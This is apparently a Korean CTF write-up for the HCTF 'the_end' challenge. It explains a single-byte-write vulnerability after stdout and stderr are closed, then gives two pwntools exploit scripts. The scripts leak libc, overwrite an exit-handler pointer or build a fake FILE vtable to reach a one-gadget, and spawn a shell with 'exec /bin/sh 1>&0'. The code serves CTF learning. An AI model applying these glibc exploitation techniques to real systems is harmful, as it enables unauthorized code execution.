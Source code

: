 # hctf - the_end

close(1)

close(2)

이 두함수 때문에 정적 출력이 되지 않는다.

그리고 어느 주소에나 1바이트씩 쓸 수 있다.



내가 생각한 exploit 방법

함수의 마지막에 exit를 불러오는데 exit를 불러오면

__exit_funcs라는 라이브러리 심볼 구조체를 가지고

'__run_exit_handlers'에 들어가는데 이때 '____rtld_global+3848'의 주소를 실행한다

따라서 __rtld_global+3848에 oneshot 주소를 넣으면 쉘을 딸수 있을거라 생각했다



<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>process(<span style="color:#63a35c">'./the_end'</span>,env<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>{<span style="color:#63a35c">'LD_PRELOAD'</span>:<span style="color:#63a35c">'./libc-2.23.so'</span>})</div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./the_end'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>e.libc</div><div style="padding:0 6px; white-space:pre; line-height:130%">ld<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'/lib/x86_64-linux-gnu/ld-2.23.so'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendlineafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.recvuntil</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">s<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.send</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'gift&nbsp;'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#066de2">int</span>(ru(<span style="color:#63a35c">','</span>).replace(<span style="color:#63a35c">','</span>,<span style="color:#63a35c">''</span>),<span style="color:#0099cc">16</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span>libc.symbols[<span style="color:#63a35c">'sleep'</span>]</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">for</span>&nbsp;i&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#0099cc">5</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;s(p64(leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x5f0f48</span><span style="color:#a71d5d">+</span>i))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;s(p64(leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0xf02a4</span>)[i])</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.sendline(<span style="color:#63a35c">'exec&nbsp;/bin/sh&nbsp;1&gt;&amp;0'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>



원래 풀이법

 vtable 만들어서 푼다.

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">context.log_level<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">"debug"</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">"/lib/x86_64-linux-gnu/libc-2.23.so"</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">p&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;process(<span style="color:#63a35c">'the_end'</span>,env<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>{<span style="color:#63a35c">'LD_PRELOAD'</span>:<span style="color:#63a35c">'./libc-2.23.so'</span>})</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#p&nbsp;=&nbsp;remote('127.0.0.1',1234)</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">rem&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">if</span>&nbsp;rem&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0099cc">1</span>:</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;p&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;remote(<span style="color:#63a35c">'150.109.44.250'</span>,<span style="color:#0099cc">20002</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;p.recvuntil(<span style="color:#63a35c">'Input&nbsp;your&nbsp;token:'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;p.sendline(<span style="color:#63a35c">'RyyWrOLHepeGXDy6g9gJ5PnXsBfxQ5uU'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sleep_ad&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;p.recvuntil(<span style="color:#63a35c">',&nbsp;good&nbsp;luck'</span>,drop<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>True).split(<span style="color:#63a35c">'&nbsp;'</span>)[<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">1</span>]</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc_base&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;long(sleep_ad,<span style="color:#0099cc">16</span>)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span>&nbsp;libc.symbols[<span style="color:#63a35c">'sleep'</span>]</div><div style="padding:0 6px; white-space:pre; line-height:130%">one_gadget&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;libc_base&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;<span style="color:#0099cc">0xf02b0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">vtables&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;libc_base&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;<span style="color:#0099cc">0x3C56F8</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake_vtable&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;libc_base&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;<span style="color:#0099cc">0x3c5588</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">target_addr&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;libc_base&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;<span style="color:#0099cc">0x3c55e0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#066de2">print</span>&nbsp;<span style="color:#63a35c">'libc_base:&nbsp;'</span>,hex(libc_base)</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#066de2">print</span>&nbsp;<span style="color:#63a35c">'one_gadget:'</span>,hex(one_gadget)</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#066de2">print</span>&nbsp;<span style="color:#63a35c">'exit_addr:'</span>,hex(libc_base&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;libc.symbols[<span style="color:#63a35c">'exit'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#&nbsp;gdb.attach(p)</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">for</span>&nbsp;i&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#0099cc">2</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;p.send(p64(vtables<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>i))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;p.send(p64(fake_vtable)[i])</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">for</span>&nbsp;i&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#0099cc">3</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;p.send(p64(target_addr<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>i))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;p.send(p64(one_gadget)[i])</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">p.sendline(<span style="color:#63a35c">"exec&nbsp;/bin/sh&nbsp;1&gt;&amp;0"</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">p.interactive()</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

